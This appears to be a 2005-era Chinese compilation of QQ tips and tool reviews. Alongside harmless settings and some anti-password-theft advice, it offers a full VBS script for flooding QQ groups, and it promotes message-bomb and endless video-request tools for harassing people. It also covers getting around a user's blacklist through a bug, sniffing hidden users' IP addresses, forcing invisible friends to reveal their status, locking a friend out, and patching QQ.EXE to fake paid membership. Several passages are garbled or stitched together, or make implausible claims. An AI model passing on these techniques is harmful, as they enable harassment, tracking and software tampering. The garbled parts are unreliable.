QQ中好友多了，每次上线光问候都要半天；要是对于某位重要的MM没有问候，那可能会引来终身后悔（小菜：开玩笑别那么夸张）。利用QQ中的“好友设置”就可以让QQ自动去问候特别的她，每次上线就自动会给她发送消息！首先在她头像上点击右键选择“查看资料”，然后切换到“备注／设置”将“好友设置”里的“如果好友上线，则自动发出问候”选上，在下面的“问候语”中填入要问候的话，如图1，如此对她用心良苦，她又怎能不被你感动？！不过时间长了，对方也可能会很烦，所以要经常换些问候的内容，否则她把你拉到黑名单可就得不偿失了。

### 1.15 安全防范

**另类飘叶OICQ!**

#### 一、关于防止密码被木马窃取的方法

除了以前给QQ号前面加一大串0的方法外，还可以不按照顺序来输入。比如密码是12345，输入的时候就先敲入1235，再把鼠标移到3的后面，输入4。因为木马截获的是键盘的动作，并不知道鼠标的移动，所以在木马看来，你的密码就是12354了。在公共场所上网时一定要注意这个问题，因为很多网吧机器都被人安装了键盘记录器等软件。当然了，你可以把输入顺序搞得更复杂些，那样别人即使截获一堆数字，也拿它毫无办法了。

#### 二、使用中文做密码

打开记事本，把你要作为密码的中文写入其中，用鼠标右键点击屏幕右下角的QQ图标，在弹出菜单中选“个人设置”，此时会弹出“QQ2005设置”对话框，点击其中的“网络安全”，选“修改密码”，输入旧口令，在“新口令”栏中把记事本里的中文密码粘贴进去就可以了（用快捷键ctrl+C和ctrl+V），如图1。要注意的是：一个中文占两个字符的空间，QQ最大支持16位密码，所以你的中文密码不能超过8个字。

图1

### 三、对付飘叶OICQ千夫指有妙招

飘叶OICQ千夫指属于QQ消息炸弹，通过给你发送大量的洪水信息，使你不得不下线。多数情况下，大家对付它的办法都是采用下线再上来的方法，其实有更简单、更容易的对付它的办法，具体做法是：启动QQ，用鼠标右键点击任务栏中的QQ图标，在弹出的菜单中选择“个人设置”，会弹出“个人资料”对话框，在“用户昵称”前加上“275297”（注意输入时没有引号）；接下来点击“联系方法”标签，然后在“电子邮件”栏中把你的E-mail改成作者飘叶的QQ号码“275297”。这样只要用飘叶OICQ千夫指向你发消息，他（她）的计算机就会重新启动！那些讨厌的洪水消息当然也就被拒之门外了！

### 四、查QQ上陌生人和隐身人IP

目前流行使用带补丁的QQ（比如珊瑚虫外挂），使用这样的QQ可以查看到好友的IP。但如果是QQ上的陌生人和你说话，或你的好友隐身了，再使用带补丁的QQ就无法查到他们的IP了，该怎么办呢？使用NetXRay就可以了！只要他们的确在线，不管是你发消息给他们，还是他们发消息给你，只要一产生连接就可以发现他们的IP。从网上下载NetXRay（这是一款嗅探软件，用于高级分组检错），它可以帮我们的忙。首先，运行NetXRay，在菜单中选取“TOOLS”——“Matrix”，选择画面下端的“IP”标签，按右键，在弹出的菜单中选中“Show Select Nodes”。现在，打开QQ和你想查IP的隐身好友聊上一句，同时观察窗口，在数据包发送的那一瞬间，颜色有变化的数据线就是你和她之间的IP连线。看看数据线的另一头，就是她的IP地址。其实利用你的防火墙也是可以做到的！

### 1.16 将自己加为好友

QQ2005虽然已经将自己放在QQ好友里了，可这个好友并非是真正的“好友”，为什么呢？你试试能给它发消息不？

好！现在我来教大家如何真正的将自己加为好友（如果你直接加会出现图1所示的错误提示）！首先打开你的QQ下面的“系统菜单”->“个人设置”->“网络安全”->将“身份验证”设置为“允许任何人把我列为好友”，然后点“应用”！接着在QQ好友面板里的“黑名单”上单击右键选“添加坏人名单”，如图2，然后输入自己的号码（先委屈一下自己，先苦后甜么！呵呵）。会看到你的头像出现在“黑名单”里了，把它拖到“我的好友”里，然后在弹出的框里选“完成”，自己是不是已经躺在好友名单里了？

### 另类 FTP

相信各位 QQ 高手都用过 QQ 中的“共享文件”吧？什么？没用过？那就跟我一起来吧！这个功能早在 2003 版就推出了，它能将本地的文件设置为共享来让规定的好友浏览，并给予一定权限，是不是很像 FTP？

设置很简单，打开 QQ 下面的“系统菜单”→“工具”→“共享文件”，在弹出的窗口中切换到“我的共享”选择上面的“新建共享”，如图 1。在“共享名”中输入共享后显示的名字，在路径里设置要共享的文件夹，点击“设置路径”即可；在“描述”中可以输入注释；如果需要密码访问可勾选“设置密码”并输入密码。还可以使用“身份限制”指定哪些用户具有使用权限，如图 2；并可在“禁止访问”中设置黑名单。

那么，怎么访问别人的共享呢？很简单，只要右键单击想浏览的好友头像，在菜单中选择“浏览共享文件”即可（如图 3）。还可以在“共享文件”面板里直接输入 QQ 号（如图 4）。

### 解除 QQ 手机捆绑

给大家介绍一个简单的方法去掉 QQ 的手机绑定！

经过尝试，总结出如下方法：点击“菜单”，选择“无线 QQ —— 无线 QQ 向导”，选择第一项“QQ 免费绑定——手机／小灵通”，点击下一步。接下来输入手机号（需输入已捆绑 QQ 号码的手机号），再输入收到的字符。系统会提示：你已经成功捆绑了手机。

然后你的头像旁边会出现手机捆绑图像，但由于一个手机只能捆绑一个 QQ，过一会儿该图像会消失。至此，解除手机捆绑成功。

### 快速定位好友

我想每一位使用 QQ 的朋友在“我的好友”里都加入了很多网友。常见做法是在昵称前加空格做排序，但有时仍不方便。这里有个简单方法：记住对方昵称的首字母，在好友列表中直接按该字母键即可快速定位（例如昵称以“g”开头，按“G”可迅速跳转）。

如果好友是分组管理的，需要先进入对应分组再进行查找。

### 1.21 免费做会员

大家都知道QQ会员每次上线都会有登录IP地址及时间提示，还有聊天窗口无广告的功能。今天你将不用为这个发愁了，我们不花钱也能做“会员”，只不过这个会员是本地的！原理是用16位编辑器修改QQ.EXE中的特定字节（如将“C1 E8 07”改为“B0 01 90”），也提供了更简单的修改工具，复制到QQ安装目录后运行即可。

> 注意：修改前请确保所有QQ都已经关闭！

点击下面的“应用补丁”即可修改成功。现在登录你的QQ看看，是不是跟会员一样了？

## 1.20 免费上传QQ商城头像

QQ2005推出了自定义头像功能，但通常要求会员或达到一定等级。文中介绍了一种不使用Q币也能上传商城头像的方法：先在个人设置中打开QQ头像商城，选中头像后通过拖拽到桌面保存为BMP文件，再将该文件上传到QQ头像中即可。

### 1.22 屏蔽魔法表情

新版QQ推出了魔法表情，聊天时会在屏幕上出现动画效果。文章指出其可能影响正常“工作”，并给出屏蔽方法：在QQ目录中找到 MagicFlash.exe（负责魔法表情发送与接收），通过重命名（如在文件名后加“1”）使其无法被调用，从而达到屏蔽效果。

然后打开一个聊天窗口来试试看，如图3，提示“给你显示魔法表情失败”，怎么样是不是达到屏蔽的效果了？如果要用的话，再将名字改回来就OK了！但是这样的步骤是不是你又要说麻烦呢？

每次屏蔽都要自己手动完成，我们可以编写2个BAT文件来完成这样的操作，一个用来屏蔽一个用来还原。先新建两个记事本然后分别输入如下代码：

### 第一个（屏蔽）：

```
@echo off
@ren c:\QQ\MagicFlash.exe MagicFlash1.exe
```

这里的“c:\QQ\”是你的QQ安装目录，比如C:\tools\qq，将c:\QQ\替换成你的QQ安装目录就可以了！如图4。

### 第二个（还原）：

```
@echo off
@ren c:\QQ\MagicFlash1.exe MagicFlash.exe
```

接着将这两个记事本保存为扩展名为BAT格式的文件，注意在“保存类型”中选上“所有文件”，如图5。然后运行“屏蔽.bat”试试看，是不是成功屏蔽了？再用“还原.bat”看看（其实原理就是通过改名来让QQ无法调用魔法表情来达到屏蔽的目的），呵呵，其实这样的功能还可以用VB等编程软件来完成！所以，建议各位菜鸟们一定要学习编程，否则你永远也只是一个工具hackcr！

## 普通QQ号可以克隆QQ好友

相信大家手头都有好几个备用的QQ号吧，但是有时候因为某些原因，要把一个QQ上的好友完全克隆到另外一个QQ上面，这个“庞大工程”我想一般人是没有时间，也没有精力去完成的。您先不用着急羡慕QQ会员的克隆好友功能，我们自己动手，照样可以完成这个“不可能的任务”！

首先，我们要将自己原来的号和新号重新登录一遍然后将两个号全部关掉，去QQ安装目录找到以原来QQ号命名的文件夹（比如c:\QQ\123456），进入后会发现里面有个user.db文件，这个就是QQ存放好友列表的文件了，如图1。

> 小提示：QQ中的几类关键文件介绍

- **MsgEx.db** 文件：正常登录QQ后生成，删除后会造成消息记录异常；用其他号码同名文件替代也可能导致异常。
- **ewh.db** 文件：同样是登录后生成，用来管理密码相关信息，删除或替换可能导致密码显示不正确。
- **notes.db** 文件：QQ备忘录管理文件，可通过复制到自己的QQ号码文件夹中实现备忘录迁移。

> User.db 文件，是将好友列表文件（被称为 QQ 号码管理的文件）复制到自己的 QQ 号码文件夹中。登录后你的 QQ 好友表会消失，显示的是被复制的 QQ 的所有好友列表。你可以看到对方的好友，复制后把你的好友名单发给他们发恶意信息的话，他们不会想到任何的原因，因为他们只是一些伪装 QQ 好友，并非你真正的 QQ 好友。

在好友列表里选中自己想要加的人，选择多人的话要按着 ctrl 键或者选中第一个按住 shift 键再选中最后一个就能全选了，选好后再把刚才选中的好友全拉到陌生人一栏里。看到这里，你可能要问，为什么要删除他们啊？因为这是让他们复活的关键一步，在跳出的对话框里全部点确定。然后到陌生人一栏中，像刚才一样选中你的好友，拉到好友列表里，复活成功，不过接下来的事情可就要让你忙活一阵子了，这回要跳出好多要求好友确认的对话框，您就慢慢点吧，虽然这个办法有点笨拙，但是目的还是达到了。

然后将它复制，接着再到新号的文件夹里，粘贴覆盖原文件，再登录新号，你会发现，好友都在上面了，不过他们是永远不会上线的。先不要着急，接下来就是我们最关键的一步了，打开 QQ 里“系统菜单”->“好友与资料”->“好友管理器”。

## 轻轻松松 不让你用QQ

有时我们要使用自己的电脑，而我们的死党却说要用我的电脑与 MM 聊天，我们不好意思直接跟他说不行，但我们可以做个假象：让他的 QQ 在我这台电脑登录不了。如何实现呢？用专门软件加个密码，让它运行时提示输入密码，但要是自己的朋友要用，这样明摆着不让他用，也未免不近人情，如何实现没有密码提示，也让他不能运行我们的软件呢？

呵呵，方法很简单，跟我一起来吧，首先进入你的 QQ 安装目录下，比如 C:\Program Files\QQ，在其中事先找到以你死党的 QQ 号码为名字的文件夹，然后我们右键打开它，在弹出的菜单中选择“属性”，如图1，在弹出的属性对话框中我们勾上其中的“只读”，如图2，呵呵，这样就能限制住他用 QQ 了。什么效果？你可以登录这个 QQ 看看，他会一直出现那个登录的界面，如图3，但是却永远也上不去，你可以假装什么也不知道，呵呵。

要是 QQ 安装目录下没有以他 QQ 号为名的文件夹呢？其实我们可以自己给他创建一个，比如他的 QQ 号码为 720990，那么我们就新建一个文件夹名字是 720990，再用上面的方法做一遍就可以了！

还有一种方法就是利用防火墙来直接封锁住 QQ，那样的话，所有的 QQ 都不能登录了，当然也包括你的在内。我这里以 XP+SP2 下的防火墙为例：右键“网上邻居”->“属性”，在网络连接窗口中右键本地连接->“属性”，切换到“高级”选项卡，单击设置，会弹出 Windows 防火墙设置。再切换到“例外”，在菜单中找到 QQ，将前面的勾去掉，然后确定，这样所有本机的 QQ 都会登录不上去了。要恢复也很简单，再把前面的勾勾上即可。其它程序也能利用防火墙来限制访问，自己发掘吧！

### 让自己的头像靠前

想让自己的QQ头像在别人列表里的位置靠前么？想让MM注意你么？那你在她列表里可一定要排在前面才可以！要不然人家可不会注意你啊！

那有没有办法让自己的头像比较靠前呢？答案是肯定的！打开QQ下面的“系统菜单”->“个人设置”->在“个人资料”的“用户昵称”前点一下鼠标，再插入几个空格。不要太多了，要不然你的昵称就显示不了了！这样你的头像就会靠前了！还有，如果你在昵称前按着ALT键不放再输入小键盘上的255，然后松开ALT键，你就会排在她好友列表最后一位了！

> 小提示：由于QQ好友列表是有排列规则的，和ASCII字符有密切关系，所以只要在昵称前加入ASCII字符的第一个字符就可以让头像靠前了。

## 使对方的QQ黑名单失效

有些时候，由于说错了一句话或对方“喜新厌旧”，将我们拉到QQ“黑名单”，这样我们就无法再和对方说话了。在此，告诉大家一个让黑名单失效的方法，用这个方法，别人把我们加入到“黑名单”中也没有用，我们还可以重新把对方加入到自己的好友名单，仍可以不断地给对方发送信息。原理说白了也很简单，就是利用了QQ的一个Bug，这个Bug出现在系统通过认证这一环节。

下面说说具体的方法：如果对方将你的名字拉入“黑名单”中，那我们就无法再和你的好友说话了。但如果当初他向你发送过加入请求，那我们只要在消息管理器中（“系统菜单”->“好友与资料”->“消息管理器”）找到他向你发送请求的那条命令然后双击，如图1，按“通过验证”按钮，就可以再次把你加回到她的QQ好友名单中，这样即便他在好友名单中删除你，或者把你扔到“黑名单”，也没有关系，我们都可以通过这个方法重新回到他的好友名单中，是不是很“顽强”啊？^_^！

在此给大家提供摆脱这种骚扰的办法，在他头像上点右键，在弹出来菜单中选择“收发讯息”，会弹出“发送消息”窗口，点击上方他的个人签名，会弹出“查看资料”窗口，点击该窗口中的“备注/设置”，然后找到“不接收该好友发过来的任何消息”，在前面打上“√”，如图2，就可以解决这个问题。世界终于清静下来了……

### 刷屏，我刷刷刷！

想必大家都知道刷屏吧！什么？你不知道？晕……简单地说，刷屏就是把一句话重复发送N遍制造大量无用信息，是人见人烦的行为！在QQ群里经常能看到有人在刷屏，还是直观点吧，就像图1那样就叫做刷屏！可能有人还深受其害或者深感其乐，哈哈！

现在我教大家一个超级刷屏方法，首先声明一下：代码只是作为技术研究之用，请勿非法使用！要是发生什么后果，比如真人PK，土豆、菜刀等物满天飞等等，小鱼可不负责哦，呵呵！

好，开始，一般刷屏是先将要发的内容复制下来，然后粘贴一次再发送一次如此循环下去就能制造出刷屏的效果了。根据这个原理，我们可以写一个专门用来刷屏的VBS脚本（菜鸟：怎么又是什么脚本，头大……小鱼：很简单的，只要你照着我的步骤做就绝对可以成功，不要说你连字也不认识！——！实在不行光盘里有现成的脚本文件！菜鸟：^^）

> **小知识：VBScript介绍**

VBScript与Visual Basic语言有密切关系。如果你熟悉BASIC，你将会发现VBScript很容易学习和使用。VBScript是Microsoft Visual Basic的简化版本。VBScript是一种脚本语言，这意味着这种语言比BASIC语言的成熟版本更容易使用；脚本语言是解释执行的，不需要编译；程序中不需要什么设定和定位。再者语句之间分隔得比较清楚，通常VBScript脚本的后缀为“.vbs”。

首先在桌面上右键单击，在弹出的菜单中选择“新建”->“文本文档”，如图2。然后双击打开后在里面输入如下代码：

```
vb
Set WshShell = WScript.CreateObject("WScript.Shell")
WshShell.AppActivate "群名称 test"
for i=1 to 10
WScript.Sleep 500
WshShell.SendKeys "^v"
WshShell.SendKeys "%s"
next
```

代码就这些了，这里解释一下，for i=1 to 10是循环的次数，这里就是10次，假如要循环20次，就是for i=1 to 20。然后将文件“另存为”，如图3。注：保存类型选上“所有文件”，文件扩展名为vbs。然后打开一个QQ群，先复制好要刷的话，如图4，在双击刚刚保存的脚本。菜鸟：怎么没有反应啊？别急，你将鼠标在群聊的发送信息里点一下。菜鸟：好了！它自己开始刷了！哈哈！如图5。

最后奉劝一下大家不要刷的太厉害了，否则被管理员T出群可别哭哦！

## 1.28 隐藏QQ摄像头

是不是有这样的经历，正在玩着游戏却突然弹出个QQ视频窗口把自己切了出来，是不是很烦呢？不少朋友喜欢使用摄像头和好友面对面聊天，这样在对方好友QQ里自己的头像旁就被自动添加了摄像头小标志，显得很特别。可就是这小小的摄像头却带来了一种挥之不去的烦恼：只要安装了摄像头，QQ在每次登录时就会对是否安装有摄像头进行自动检测，并把这个信息发送到QQ的服务器上。任何一位QQ使用者都可以通过“查找”->“有摄像头的用户”发现你的行踪，并且可以要求和你进行视频聊天，因此很多网友在安装摄像头后，始料未及地遭受了无数视频聊天请求的骚扰。

我们只有想个办法把摄像头隐藏起来才能避免这种骚扰，那么如何才能隐藏起来呢？很简单，打开QQ下面的“菜单”->“个人设置”->“系统设置”中的“本地安全”->选上“不要把我列在在线视频列表中”，如图1，即可搞定！

### 四则非常规秘籍

- 1. **唤醒游戏中的Q友**

有时候给在线好友连发几条消息对方都没反应，可能是对方在挂着QQ玩游戏。可在聊天窗口点击“邀请对方语音视频聊天”或“发送文件给对方”，对方QQ窗口会被强制弹出或从游戏中切出，通常能让对方注意到你。

- 2. **逼迫隐身的好友现身**

先打开聊天窗口选择“超级语音”。如果对方在线并点“接受对话”，自然可确认在线；若对方“挂断对话”，你的窗口也会提示对方在线。即便对方既不接受也不拒绝，只关闭弹窗，你这边仍可看到提示，从而判断其状态。

- 3. **针对对方使用第2条后的反击措施**

当对方发起邀请时，不要直接关闭邀请窗口，可先让QQ下线，再关闭该窗口。由于你已下线，这个动作不会反馈到对方窗口。随后再隐身上线即可，让对方继续等待而无从得知。

- 4. **让对方上线后第一眼看到自己的留言弹出**

留言前先向对方发一个视频聊天请求后取消，再写留言。这样对方启动QQ上线后，首先弹出的往往是你的留言窗口，能第一时间看到你的信息。

# 第二章 QQ软件乐园

## 2.1 3款QQ在线查询器

想知道那位MM是否在线吗？现在来让小鱼给您介绍三款在线看状态的小东东！通过它，无论她怎么变都逃不出我们的手掌心，轻轻松松看她的在线状态！

首先是“QQ在线状态查询器”，这是一款绿色软件，双击后运行界面很简单，在QQ号处输入你要查询的QQ号码，然后点击“查询”即可显示该号码的在线状态，效果如图1。

接着也是一款很小巧的东东，QQ状态查询小精灵，它比QQ在线状态查询器多了一个显示对方QQ秀的功能，双击后运行界面，如图2。

在“QQ号码”处输入要查询的QQ号，点击“查询”后在左侧就会显示出相应的QQ秀，在右下角显示出此QQ的在线状态，如图3。

最后一款是“QQ在线看器”，它需要先安装，不过安装过程很简单，单击“下一步”就可完成，安装完后运行界面，如图4。

右边有程序的使用说明，在“QQ在线查询”中输入对方QQ号码点击“查询”即可根据上面显示的图片来判断对方是否在线，如果在线点一下显示的图片就可以和对方聊天了，如图5。

程序为了方便查询，还添加了一些人性化的元素，单击左边的“QQ同学录”，可以在其中添加经常要查询的QQ号码，添加完后每次双击即可查询状态与其聊天，如图6。

通过这三款小东东；相信你对她的在线状态应该了如指掌了吧！

### PPQQ 之反隐精英

PPQQ 之反隐精英是一个能够让你准确的判断你 QQ 上的某个好友是否隐身在线的免费工具软件。有了它，想不理我，没门！

PPQQ 支持目前 Windows 系列所有的操作系统以及所有的 QQ 版本，包括 2004 以前版、2004 版、2005 版、木子版等等。

#### 一、PPQQ 1.2 正式版功能

- 1. 修复了部分 QQ 号码无法查询的错误。
- 2. 用户使用 PPQQ 登录的时候默认为隐身登录，这样对方就不会发现你总是上下线了。

#### 二、缺点

由于本软件底层参考使用的是 lumaqq 的算法，最近 lumaQQ 已经宣布对于 QQ2005 beta1 版本不能支持了，所以这个软件同样不支持 QQ2005beta1！

#### 三、使用方法

从压缩包中解压出来后，直接运行 “proodppqq.jar” 即可打开软件，如图 1。
在“QQ 帐号”输入你自己的 QQ 帐号，在“QQ 密码”里输入对应 QQ 帐号的密码，“潜水 QQ 号”就是你要查找的 QQ 号码。

> 注意：这里输入的 QQ 号必须是前面输入的你自己 QQ 号的好友，也就是说只能查询自己 QQ 内好友是否在线。

点击“出招”按钮，PPQQ 开始工作，同时“收招”按钮变成可按状态。可能需要几秒钟的时间，因为 PPQQ 要连接 QQ 的服务器，查询目标 QQ 是否是隐身，如图 2。如果在线的话会提示图 3。

### QQ 场景编辑精灵

QQ 场景编辑器界面亲切、友好，所见即所得的编辑环境令你轻松完成 QQ 场景的整个制作过程，包括背景图片的导入、设置以及场景动作的设计、实现等。此外还提供了动作预览，可以很方便的随时查看动作效果。

双击运行后的界面如图 1 所示，可以选择创建一个新的场景，也可以自己选择一个已有的场景！创建后你就能轻轻松松打造属于自己的 QQ 场景了。

让 MM 对你刮目相看，你可以现在左上角右键单击选择“添加动作”、“添加声音”、“添加音乐”等；如图 2。尽情在这里发挥，打造属于你自己的一片天空吧！

### QQ 防盗专家

最近丢失 QQ 的朋友是越来越多了，我们今天来讲讲怎么防止别人盗自己的 QQ。一般的 QQ 盗号木马都有一个共同点，就是通过判断当前 Windows 窗口中有没有名为“QQ 用户登录”或“QQ 注册向导”字样的标题，如果有则认为是 QQ 密码登录界面，盗密软件就采取实时监控方式截取 QQ 密码……

只要破坏 QQ 盗密软件的必要条件（QQ 标题），就可以对付 QQ 盗密软件了。我们下边要介绍的 QQ 密码防盗专家这个软件，就是采用 QQ 标题实时变动法。

QQ 密码防盗专家与 QQ 盗密软件一样实时监控 QQ 标题，不同的是一个是为了盗 QQ 密码，而 QQ 密码防盗专家则是改变 QQ 标题，并且 QQ 标题是动态改变的。这样那些盗 QQ 的软件就没办法了……

### 1．首先我们来认识专家

QQ 密码防盗专家的主界面如图 1 所示。它能够防止一些最新版的 QQ 盗密软件在你修改新密码时把你的 QQ 密码记录下来。其个性化设置中能够隐藏或伪装你的 QQ 号，能够禁止 QQ 收发消息、禁示文件下载、禁用注册表、禁止文件及目录删除等。

此外，QQ 防盗补丁能够防止一切网页代码自动下载 QQ 病毒及修改系统注册表，并有 QQ 病毒清除方法，能够自动识别并提示该窗体是属于新版 QQ、旧版 QQ 还是伪装 QQ 界面的木马，并能隐藏自己。

### 2．自动关闭 QQ 广告

从程序主界面可以看到，该软件能自动关闭 QQ 广告，包括无线 QQ 使用向导广告、腾讯 QQ 系统广播、腾讯 Flash 广告、发送消息框内的动画广告以及 IE 浏览器弹出的广告窗口等，设置非常简单，只要在主界面进行简单的勾选即可。

### 3．取回密码

只要点击主界面上的“取回密码”选项，便可以轻松取回 QQ 密码，如图 2。

## 2.5 QQ吉凶推算

想给自己的 QQ 也算上一卦么？这款小东西可是偶遇 MM 时经常用的哦！“QQ号吉凶算 2005”是水晶情缘工作室出品的一款纯绿色软件，官方网站是 www.lovehy.com。双击后即可运行，在下面的 QQ 号中输入要算的 QQ 号，点击“开始预测”即可。

对该软件新增密码取回功能，能够取回已忘记的密码，并且有 QQ 何时登录及登录时使用的是 QQ 用户界面还是 QQ 注册向导界面等记录。如果你登录了 QQ，只要点击“取回密码”，就会立即在左边显示你的 QQ 号码以及密码，甚至还有上次的登录界面和上线时间，如图 3。

你还可以使用“邮箱取回”来取回你的 QQ 密码，只要你选择接收邮箱的类型，输入邮箱账号等，然后按照提示进行操作即可，如图 4。

#### 4. 内核修改

修改 QQ 内核，并且能够设定 QQ 自动登录键，彻底防止了键盘及鼠标记录软件对 QQ 密码的记录。点击主界面上的“内核修改”选项，即可进行相关设置，如图 5。为了防止最新盗密软件对 QQ 界面中的回车键及鼠标按键进行记录来取得 QQ 密码，你可以在 QQ 密码防盗专家原有的防盗方式上自己设定快捷键来进行登录，因为是用户随机设定的功能键进行登录，因此可以绕过盗密软件对（回车键）或（鼠标按键）的检测。

> 注意：是在输入完密码之后，再按快捷键，不要按回车键或点击鼠标；快捷键可以自己定义。

## 2.6 QQ视频非接不可

如果你非常想与某位漂亮 MM 进行 QQ 视频聊天，但她马上拒绝了你，怎么办？只有继续发送请求。这个小东西可以在对方拒绝后自动再次发送请求。

“QQ 视频非接不可”是水晶情缘出品的一款辅助 QQ 聊天的小工具。双击运行后，首先打开你要发送视频的聊天窗口，然后点击软件上的“发送”或者按“F10”键，即可不断向对方发送请求；只要她拒绝你，程序就会自动再发，直到她受不了为止。

### QQ 守护神——QQ 安全精灵

随着网络在中国这片大地上的流行，QQ 也被越来越多的用户所接受，现在要是谁还没有 QQ 号那算不上一个真正的网民！如今 QQ 的流行也使大批以 QQ 为传播途径的病毒开始猖狂起来，什么这个那个的 QQ 病毒，还有一些人种植的 QQ 木马，由于很多人上网一般都是在网吧或者公用机房里，QQ 的安全性自然不是很高，那么真的没有办法了吗？答案当然是有的，这里给大家介绍一款最新出的保护 QQ 安全的软件——“QQ 安全精灵”，最新版本是 V1.5Build0222，它是由松茂软件园开发的一款小东东，官方网站是 http://redlegend.126.com，大家可以去这里下载最新版本，这里我要感谢一下作者给广大 Q 友们写出了这么一个好东西。

下面来看看如何使用这款软件保护我们的 QQ，双击运行“QQ 安全精灵.exe”，界面如图 1 所示，还可以吧！？界面设置的挺人性化的，从程序的主窗口可以看到所有正在运行的进程，为什么要这样做呢？这是为了防止在 QQ 运行前一些非法的程序比如 QQ 盗号程序的运行，为了方便大家找出非法进程我这里给出一个系统关键进程的列表，也就是说除了下面的这些进程，其他的进程都是可以直接中止的。

- system process
- alg.exe
- csrss.exe
- ddhelp.exe
- dllhost.exe
- inetinfo.exe
- internat.exe
- kernel32.dll
- lsass.exe
- mdm.exe
- mmtask.tsk
- mrexe.exe
- msgsrv32.exe
- mstask.exe
- regsvc.exe
- rpcss.exe
- services.exe
- smss.exe
- snmp.exe
- spool32.exe
- spoolsv.exe
- stisvc.exe
- svchost.exe
- system
- taskmon.exe
- tcpsvcs.exe
- winlogon.exe
- winmgmt.exe

选中一个非法的进程，然后点击上面的带有红色叉号的按钮来中止它即可，如图 2。你也可以将当前的所有进程制作成快照以后再慢慢研究它，点击上面钢笔图标的按钮，即可制作一个进程快照，如图 3。

你可以去同目录下查看这个快照。QQ 安全精灵不仅可以轻易操作进程，还能够清楚你登录 QQ 后的所有聊天记录以及一些生成的东西，首先选择你的 QQ.exe 主程序所在的路径，如图 4。

选择好后就会出现相应的 QQ 号，我们选择一个之后点击右边的“清除 QQ 记录”按钮，这样便能轻轻松松除掉自己的聊天记录，做到上网不留痕了！

## 2.8——QQ万能登录

要是现在突然断网了，可是我们又要查看QQ中与好友谈话的重要内容，我们知道，在网络不通的时候，要想打开QQ主窗口查看记录是不可能的，现在有了“QQ万能登录”，你就不用发愁了！

安装上QQ万能登录之后这些情况就永远也不会在你身上发生了，我们可以去：http://www.steven-studio.com/info/QQ_Login.htm 下载最新的版本，QQ万能登录是由 Steven Studio 软件工作室开发制作的！

下面我们来看一看该如何使用。双击运行QQ万能登录，第一次运行会弹出如图1的对话框，点击“同意”就来到了主界面，如图2。

在上面“QQ程序”中点击“浏览”来选择你的QQ程序所在地，如图3。下面会马上出现所有在本地登录过的QQ，如图4。然后点击“万能登录”这样我们就成功登录了这个QQ，如图5。但是只是离线状态，不过对于我们查看聊天资料就足够了，如图6。

### 2.9 QQ 万能发送精灵

你想不想给未通过验证的漂亮MM或帅帅GG发送消息呢？说不定你给她美言几句，她就加你为好友了。呵呵！现在有了这款“QQ万能发送精灵”，发送消息就不用愁喽！它利用的原理就是将URL参数中的QQ号码替换为目标号码，从而实现消息发送。

这款工具是风云谷出品的一款为广大QQ友设计的软件。双击运行后，在“对方QQ号码”中输入你想聊天的MM或者GG，然后点击“确定”即可与她（他）开聊，如图1、图2。





### 2.10 QQ 消息攻击器（万箭攒心）

经常聊QQ的朋友，肯定都遇到过对QQ上某位仁兄的言谈举止忍无可忍的情形吧！直接把他拖到“黑名单”也太便宜他了，那么我们就来给他点颜色看看！

利用“万箭攒心”可以轻松实现发送消息炸弹，直到他忍受不了为止！软件最新版本为v4.0，可从官网下载安装。运行界面如图1所示，先设置要发送的语句，点击“编辑”后出现编辑窗口，如图2。

